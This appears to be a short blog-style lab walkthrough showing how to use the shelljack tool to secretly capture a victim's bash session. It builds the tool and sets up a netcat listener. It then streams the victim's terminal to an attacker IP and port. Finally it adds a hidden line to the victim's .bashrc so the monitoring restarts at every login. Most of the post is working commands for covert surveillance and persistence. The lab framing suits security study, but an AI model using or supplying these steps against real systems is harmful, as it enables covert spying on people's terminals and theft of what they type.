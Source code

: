 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp Port
```

Now in the victim's machine we have to know the PID of the tty and execute shelljack:

```bash
tty
./shelljack -n Attacker IP:Port $$
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc_1.png)

Attacker:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/attacker_poc_1.png)

## [](#header-2)Applying persistence

To apply the persistence we have to modify .bashrc in the victim's machine and add this:

```bash
tty &>/dev/null; /home/code/shelljack/shelljack -n Attacker IP:Port $$ &>/dev/null
```

Now, everytime the victim logs in the machine, if we have the listener, he is going to connect us.
